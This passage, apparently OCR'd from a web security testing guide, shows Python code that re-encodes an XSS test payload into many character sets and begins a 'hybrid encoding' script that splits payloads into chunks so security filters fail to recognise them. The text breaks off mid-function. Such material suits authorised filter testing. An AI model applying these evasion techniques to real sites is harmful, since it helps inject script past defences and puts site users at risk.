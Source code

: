               # Return both the raw encoded bytes and hex representation
               return encoded_bytes, hex_representation
           except LookupError:
               return None, f"Charset '{charset}' not supported"
       
       # Example payload
       payload = "<script>alert('XSS')</script>"
       
       # Test various charsets
       charsets = ['utf-8', 'utf-7', 'utf-16', 'utf-16le', 'utf-16be', 
                  'iso-8859-1', 'shift_jis', 'euc-jp', 'gb2312', 'gbk']
       
       for charset in charsets:
           encoded, hex_repr = encode_with_charset(payload, charset)
           if encoded:
               print(f"Charset: {charset}")
               print(f"Hex representation: {hex_repr}")
               print("-" * 50)
       ```

    3. **Hybrid encoding techniques**:
       - Step 1: Break your payload into smaller segments
       - Step 2: Apply different encoding techniques to each segment
       - Step 3: Combine the encoded segments
       - Step 4: Test if application correctly decodes and assembles the payload
       - Step 5: Adjust encoding mix based on observed behavior
       - Example: URL-encode some parts, Base64-encode others, leave some plain
       - Testing insight: Security filters may not recognize fragmented payloads
       - Python script for hybrid encoding:
       ```python
       import base64
       import urllib.parse
       import random
       
       def hybrid_encode(payload):
           """
           Apply different encoding techniques to different parts of the payload
           """
           # Break payload into chunks of 2-5 characters
           chunks = []
           i = 0
           while i < len(payload):
               chunk_size = random.randint(2, min(5, len(payload) - i))
               chunks.append(payload[i:i+chunk_size])
               i += chunk_size
           
           # Encode each chunk with a random encoding
           encoded_chunks = []
           encodings_used = []
           